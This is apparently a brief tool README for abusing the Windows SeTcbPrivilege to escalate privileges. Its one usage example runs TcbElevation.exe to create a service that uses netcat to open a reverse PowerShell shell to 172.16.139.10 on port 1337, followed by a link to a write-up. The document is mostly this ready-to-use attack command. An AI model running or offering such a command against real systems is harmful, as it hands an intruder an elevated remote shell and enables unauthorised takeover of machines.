 # SeTcbPrivilege-Abuse
Privilege Escalation with SeTcbPrivilege

```
.\TcbElevation.exe revshell101 "cmd.exe /c C:\temp\tools\nc.exe 172.16.139.10 1337 -e powershell.exe"
```

More info here: 0xbara.xyz/posts/misc/tcbelevation
